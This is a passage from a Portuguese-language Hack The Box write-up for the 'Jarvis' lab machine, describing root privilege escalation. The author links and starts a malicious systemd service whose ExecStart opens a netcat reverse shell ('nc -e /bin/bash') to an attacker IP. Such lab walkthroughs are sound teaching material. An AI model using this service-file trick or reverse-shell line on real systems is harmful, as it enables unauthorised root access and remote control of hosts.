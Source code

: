 Verificamos como fazer pra escalar privilégio com ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_lin4.png)

Um serviço é definido pelo arquivo .service, o systemctl utiliza esse arquivo para linkar com o systemd e usa ele novamente para executar o serviço.

Criamos o arquivo .service malicioso

jarvis.service
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.16.117 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_lin5.png)

Executamos o systemctl para linkar o serviço

`systemctl link /dev/shm/jarvis.service`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_lin6.png)

Agora starto o serviço e ganho shell de root (systemctl start jarvis)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_lin7.png)

## Pegamos a flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jarvis/J_user.png)